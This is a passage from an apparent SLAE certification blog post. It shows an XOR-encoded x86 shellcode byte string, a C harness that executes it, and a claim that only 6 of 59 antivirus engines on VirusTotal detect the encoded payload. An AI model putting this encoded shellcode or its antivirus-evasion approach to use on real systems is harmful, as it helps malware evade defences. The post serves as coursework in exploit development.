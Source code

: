 Dumping the shellcode I obtained:

{%highlight sh %}
"\xeb\x2f\x5e\x8d\x3e\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x8b\x14\x06\x81\xf2\xef\xbe\xad\xde\x04\x04\x8b\x1c\x06\x41\x38\xd1\x74\x16\x81\xf3\xef\xbe\xad\xde\x0f\xcb\x89\x1f\x83\xc7\x04\x04\x04\xeb\xe7\xe8\xcc\xff\xff\xff\xf7\xa6\xb5\xc6\x87\xee\x6d\xef\x87\xcd\x82\xf1\x86\xdc\x82\xb6\xde\x5d\x24\xb0\x5f\x6c\x9c\x17\x7f\x3e\x60\xd5";

{%endhighlight %}

I added this shellcode into the same C program used in previous assignments to
test our shellcode and I executed it in order to check the payload is correct.

{%highlight c%}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x2f\x5e\x8d\x3e\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x8b\x14\x06\x81\xf2\xef\xbe\xad\xde\x04\x04\x8b\x1c\x06\x41\x38\xd1\x74\x16\x81\xf3\xef\xbe\xad\xde\x0f\xcb\x89\x1f\x83\xc7\x04\x04\x04\xeb\xe7\xe8\xcc\xff\xff\xff\xf7\xa6\xb5\xc6\x87\xee\x6d\xef\x87\xcd\x82\xf1\x86\xdc\x82\xb6\xde\x5d\x24\xb0\x5f\x6c\x9c\x17\x7f\x3e\x60\xd5";

		       
int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}

{% endhighlight %}


## Virus Total

To prove my encoder on a real test bed, I used VirusTotal portal. Here it is
the
[analysis](https://www.virustotal.com/#/file/0aa7dd9033f2309fe53dfcfea6240533d788e108c7309ca7a9d27da87ea9de3e/detection).

As you may see, only 6 antivirus out of 59 detects the weaponized code as
malicious.

![Virus Total]({{site.url}}/assets/images/slae_encoding_comparison.png)

## Code in action

Here you can find the custom encoder weaponized code in action.

{% asciicast 194068 %}


## SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1217

